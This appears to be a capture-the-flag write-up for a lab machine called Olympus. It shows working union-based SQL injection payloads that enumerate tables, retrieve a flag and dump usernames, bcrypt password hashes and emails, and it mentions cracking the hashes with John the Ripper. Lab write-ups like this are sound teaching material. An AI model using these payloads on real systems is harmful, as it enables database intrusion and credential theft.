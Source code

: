 
Right off the bat I'm thinking our first flag is in that flag table, so lets see if we can get the columns for that table!

`1337'union select 1,2,concat(column_name),4,5,6,7,8,9,10 from information_schema.COLUMNS where table_name="flag"-- -`

![e56d04eb058b869bca9a92ddcde5f910.png](https://i.imgur.com/f6Rp93Y.png)
Well, not much to that table! Let's get that flag!!
`1337'union select 1,2,concat(flag),4,5,6,7,8,9,10 from olympus.flag -- -`

![ae23a66f0c7ca0dbf3de587f8195c16b.png](https://i.imgur.com/CpZL9Nn.png)
We have our first flag!!


## More poking around the database
There are a few more tables in olympus that I think are definitely worth looking into. After grabbing the flag, it's time to check out the users table to see if we can get into the admin side of this site.

First, lets see what columns are there:
`1337'union select 1,2,concat(column_name),4,5,6,7,8,9,10 from information_schema.COLUMNS where table_name="users"-- -`

![0fbfb001055e217138f2409fbaa53c7d.png](https://i.imgur.com/YktxaBb.png)There are quite a few columns on this table, here's everything:
* randsalt
* user_email
* user_firstname
* user_id
* user_image
* user_lastname
* user_name
* user_password
* user_role
* CURRENT_CONNECTIONS
* TOTAL_CONNECTIONS
* USER

Really the only columns in this I'm interested in are the user_name, password and user_email columns, so I'll concatenate them together to see if I can get them in one go:

`1337'union select 1,2,concat(user_name, ':', user_password, ' - ', user_email),4,5,6,7,8,9,10 from olympus.users-- -`

![0bb995562c9e75be7215f97406be3f35.png](https://i.imgur.com/nTsSU30.png)
It's a little hard to read on the screen, but I'm able to copy and paste. The emails I'm going to keep ahold of for now, and I'm going to try and crack the passwords using john the ripper
| user_name | user_password | user_email |
|:-----------:|:---------------:|:------------:|
| prometheus | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C | prometheus@olympus.thm |
| root | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK | root@chat.olympus.thm |
| zeus | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC | zeus@chat.olympus.thm |
